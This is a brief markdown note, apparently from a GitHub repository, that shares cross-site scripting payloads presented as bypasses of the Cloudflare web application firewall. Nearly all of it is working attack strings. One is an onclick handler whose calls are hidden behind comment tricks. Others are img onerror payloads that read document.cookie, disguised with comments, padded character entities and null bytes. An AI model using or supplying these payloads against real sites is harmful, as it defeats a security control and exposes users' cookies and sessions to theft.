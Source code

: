 # NOTAS

XSS bypass Cloudflare WAF 🧱🔥😈
Payload:
```
<a href="#" onclick="var w = window.open/**/(/**/); w.document.write/**/('Hello, world!'/**/); w.document.close/**/(/**/); w.print/**/(/**/); alert/**/('B1P4$$'/**/);">Click me</a>
```

XSS Bypass Waf Cloudflare ;) Poc 
```
"/***/&gt;/***/<img onerror="alert(document.cookie)/***/" src="P"/> "/**/>/**/<img src=P onerror=alert&#0000000040document.cookie)/**/> "&gt;00%00%00<img onerror="alert(document.cookie)" src="P"/>00%00
```

